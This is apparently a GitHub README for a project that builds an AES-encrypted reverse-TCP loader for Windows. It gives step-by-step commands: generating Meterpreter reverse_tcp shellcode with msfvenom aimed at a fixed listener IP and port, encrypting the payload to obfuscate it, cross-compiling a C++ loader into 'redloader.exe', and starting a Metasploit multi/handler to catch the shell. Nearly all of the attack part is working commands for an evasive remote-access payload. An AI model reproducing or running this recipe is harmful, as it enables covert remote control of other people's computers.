 # AES-Encrypted-Reverse-TCP-Loader
Lifecycle of creating, encrypting, compiling, and deploying a Windows-based executable designed to establish a reverse TCP connection using the Metasploit Framework. The work involves shellcode generation via msfvenom, AES encryption of the payload for obfuscation, integration into a C++ loader, cross-compilation to a Windows executable.

## Workflow Overview
![Workflow Flowchart](workflow_flowchart.png)

## Steps

1. **Generate raw shellcode with msfvenom**
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.10.103 lport=4443 -a x86 -f raw -o shellcode.bin
   ```
2. **Encrypt the payload**
   ```bash
   python encrypt_payload.py
   ```
3. **Compile the C++ loader**
   ```bash
   x86_64-w64-mingw32-g++ main.cpp -o redloader.exe -static -s
   ```
4. **Set up Metasploit listener**
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.10.103
   set LPORT 4443
   exploit
   ```
